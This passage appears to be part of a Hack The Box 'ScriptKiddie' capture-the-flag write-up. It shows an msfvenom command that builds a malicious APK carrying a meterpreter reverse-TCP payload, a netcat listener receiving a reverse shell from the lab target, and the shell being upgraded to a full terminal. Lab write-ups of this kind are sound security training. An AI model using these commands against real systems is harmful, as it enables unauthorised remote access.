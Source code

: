 ```bash
Do: msfvenom -x /tmp/tmps70hg8mz/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Uploaded the malicious apk to the application and obtained a reverse shell: 

![Pasted image 20210421132429.png](../../zzz_res/attachments/Pasted_image_20210421132429.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 56612
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ hostname
hostname
scriptkiddie
kid@scriptkiddie:~/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  sudo nc -nlvp 443

┌──(kali㉿kali)-[~/…/HTB/box/ScriptKiddie/exploit]
└─$ stty raw -echo; fg
[1]  + continued  sudo nc -nlvp 443

kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ stty rows 60 columns 235
```
